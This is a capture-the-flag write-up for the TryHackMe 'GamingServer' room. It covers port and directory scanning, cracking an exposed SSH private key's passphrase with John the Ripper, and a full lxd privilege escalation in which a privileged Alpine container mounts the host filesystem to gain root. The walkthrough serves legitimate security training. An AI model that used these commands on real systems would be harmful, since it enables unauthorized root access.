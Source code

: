 # GamingServer

[https://tryhackme.com/r/room/gamingserver](https://tryhackme.com/r/room/gamingserver)

### **USER_FLAG{ } :**

1. we get the target ip which is 10.10.73.9
2. after doing an port scan  → 

`nmap -sC -sV 10.10.73.9 >> nmap.txt`

![GamingServer%204dee5f9a77194ea79397127f01abba90/Untitled.png](GamingServer%204dee5f9a77194ea79397127f01abba90/Untitled.png)

1. there are only two ports open ssh and http
2. if we go to that IP we can find a website

![Untitled](GamingServer%204dee5f9a77194ea79397127f01abba90/Untitled%201.png)

1. and in the dev tools we can have a potential user name which is john
2. for finding hidden files and directories we can use 

`gobuster dir -u [http://10.10.73.9](http://10.10.73.9/) -w /usr/share/wordlists/dirbuster/directory-list-1.0.txt -x .html,.php,.txt`

1. we found some directories

![Untitled](GamingServer%204dee5f9a77194ea79397127f01abba90/Untitled%202.png)

1. `/about.html (Status: 200)
/about.php (Status: 200)
/index.html (Status: 200)
/robots.txt (Status: 200)
/uploads (Status: 301)
/myths.html (Status: 200)
/secret (Status: 301)`
2. In the `/secret` directory, we have a file named `secretKey` which contains a private key. We have SSH installed on the target machine. This could be the private SSH key of user `john`.
3. 

![Untitled](GamingServer%204dee5f9a77194ea79397127f01abba90/Untitled%203.png)

1. but this thing is password protected
2. We also have a `/uploads` which contains some interesting files.
    
    ![https://digitalpress.fra1.cdn.digitaloceanspaces.com/iozzwn2/2023/01/g-uploads.png](https://digitalpress.fra1.cdn.digitaloceanspaces.com/iozzwn2/2023/01/g-uploads.png)
    
    Of course we need to check the `meme.jpg` first :D
    
    ![https://digitalpress.fra1.cdn.digitaloceanspaces.com/iozzwn2/2023/01/g-meme.png](https://digitalpress.fra1.cdn.digitaloceanspaces.com/iozzwn2/2023/01/g-meme.png)
    
    We also have a "The Hacker Manifesto" which looks pretty neat!
    
    ![https://digitalpress.fra1.cdn.digitaloceanspaces.com/iozzwn2/2023/01/g-manifesto.png](https://digitalpress.fra1.cdn.digitaloceanspaces.com/iozzwn2/2023/01/g-manifesto.png)
    
    There is another file named `dict.lst` which looks like a wordlist. Let's download this to our system. We can use this wordlist to crack the private key!
    
3. User Shell
    
    We can use John the Ripper tool to crack the password for the private key of user `john`.
    
    We need to convert the `secretKey` into a format that John can understand.We will be using `ssh2john.py` for this.
    
    I'll save the output in `hash.txt` and then we can crack the password with the wordlist we found using John the Ripper.
    
    ![Untitled](GamingServer%204dee5f9a77194ea79397127f01abba90/Untitled%204.png)
    
    ![Untitled](GamingServer%204dee5f9a77194ea79397127f01abba90/Untitled%205.png)
    
    We got the password for the private key. Now we can login via SSH and read the user flag!
    
4. Now we ave to use  `ssh -i secretKey [john@10.10.215.18](mailto:john@10.10.215.18)`

![Untitled](GamingServer%204dee5f9a77194ea79397127f01abba90/Untitled%206.png)

in this form we need to give te secretKey 600 chmod permissio (600 permissions means that **only the owner of the file has full read and write access to it**.)

ssh private key needs 600  permission

### **ROOT_FLAG{ }:**

1. We have a shell as user `john` and now we need to find a way to escalate our privileges to root.

If we use the `id` command, we can see that the user `john` is a part of the `lxd` group.

![Untitled](GamingServer%204dee5f9a77194ea79397127f01abba90/Untitled%207.png)

LXD is a lightweight container hypervisor which allows to run linux containers. If a member is part of the `lxd` group, it can escalate its privileges to user `root` irrespective of the fact that it has sudo permissions or not.

I found [this](https://book.hacktricks.xyz/linux-hardening/privilege-escalation/interesting-groups-linux-pe/lxd-privilege-escalation?ref=infosecarticles.com) guide related to `lxd` privilege escalation. We need to build an `alpine` image and then we can mount the `/root` directory of  the target machine to the `/mnt` directory of a `lxd` container.

1. First we need to build the image in our own machine:
    
    ```
    git clone https://github.com/saghul/lxd-alpine-builder.git
    cd lxd-alpine-builder
    ./build-alpine
    
    ```
    
    This will create a `.tar.gz` compressed image similar to this:
    
    ![Untitled](GamingServer%204dee5f9a77194ea79397127f01abba90/Untitled%208.png)
    
    Next we need to copy the compressed file to the target machine and then import the image using `lxc`.
    
    ```
    john@exploitable:~$ lxc image import ./alpine-* --alias myimage
    Image imported with fingerprint: cd73881adaac667ca3529972c7b380af240a9e3b09730f8c8e4e6a23e1a7892b
    ```
    
    ```
    john@exploitable:~$ lxc image list
    +---------+--------------+--------+-------------------------------+--------+--------+-----------------------------+
    |  ALIAS  | FINGERPRINT  | PUBLIC |          DESCRIPTION          |  ARCH  |  SIZE  |         UPLOAD DATE         |
    +---------+--------------+--------+-------------------------------+--------+--------+-----------------------------+
    | myimage | cd73881adaac | no     | alpine v3.13 (20210218_01:39) | x86_64 | 3.11MB | Jan 7, 2023 at 6:10pm (UTC) |
    +---------+--------------+--------+-------------------------------+--------+--------+-----------------------------+
    john@exploitable:~$ lxc init myimage image -c security.privileged=true
    Creating image
    ```
    
    ```
    john@exploitable:~$ lxc config device add image mydevice disk source=/ path=/mnt/root recursive=true
    Device mydevice added to image
    ```
    
    ```
    john@exploitable:~$ lxc start image
    ```
    
    Our container has been created. Now we can simply start the container and read our final flag in the `/mnt/root/root` directory!
    
    ```
    john@exploitable:~$ lxc exec image /bin/sh
    ~ # id
    uid=0(root) gid=0(root)
    ~ # cd /mnt/root/root/
    /mnt/root/root # cat root.txt
    ********************************
    
    ```
    
2. In the middle section you have to run a simple http server and the you have to wget with your machines ip address tun0 in the target machine.s

![Untitled](GamingServer%204dee5f9a77194ea79397127f01abba90/Untitled%209.png)

at last !

![Untitled](GamingServer%204dee5f9a77194ea79397127f01abba90/Untitled%2010.png)

### **Alhumdulillah!**